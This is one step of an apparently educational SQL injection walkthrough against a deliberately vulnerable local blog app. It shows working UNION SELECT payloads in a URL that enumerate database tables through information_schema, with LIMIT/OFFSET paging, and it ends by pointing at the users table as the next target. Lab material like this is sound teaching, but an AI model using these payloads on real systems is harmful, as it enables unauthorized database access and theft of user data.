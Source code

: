 # (e) Get all tables

The plan here is to **list all the tables** of the target database (the database of this app).

The [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html) database we discussed in the previous step also store information about all the tables in every database of the server.

This information is stored in a table called **COLUMNS**.

So, to get all the tables of our database we have to query that *COLUMNS* table.
Let say our database is called **insecure_blog** (just like detailed in [env/development.json](../../env/development.json)). The query could be like this:
```shell
SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'
```

where:
- **table_name** is the column where the table's name get stored,
- **table_schema** is the column where the database's name get stored

> **Note:**
>
>   is important to use **distinct(table_name)** instead of **table_name** alone, because there is one table_name for each column of each table. 
> This means that if one table has 10 columns there will be 10 rows in the table_name column.
> Check this out. This is **information_schema.columns**:
>
> | TABLE_SCHEMA  | TABLE_NAME    | COLUMN_NAME  |
> | ------------- |:-------------:| ------------:|
> | insecure_blog | posts         | id           |
> | insecure_blog | posts         | title        |
> | insecure_blog | posts         | body         |
> | insecure_blog | posts         | date         |
> | insecure_blog | posts         | status       |
> 


Then we inject the query in the browser:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'),3,4,5,6,7,8,9,10/slug-name-post'
```

This query, just like in the previous step will return an error:
```javascript
{
  "status": "Error",
  "message": "ER_SUBQUERY_NO_1_ROW: Subquery returns more than 1 row"
}
```

We can use the same trick (*LIMIT + OFFSET*) to get the job done:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9,10/slug-name-post'
```

And keep **increasing the OFFSET** value to get all the tables.
Instead of **LIMIT 1 OFFSET 0** you can use **LIMIT 0,1**

--

If all went well, we will have 3 tables:

- posts
- comments
- users

Of course we will focous in the **users table**.

But this is for the next step.
That is it for now!!
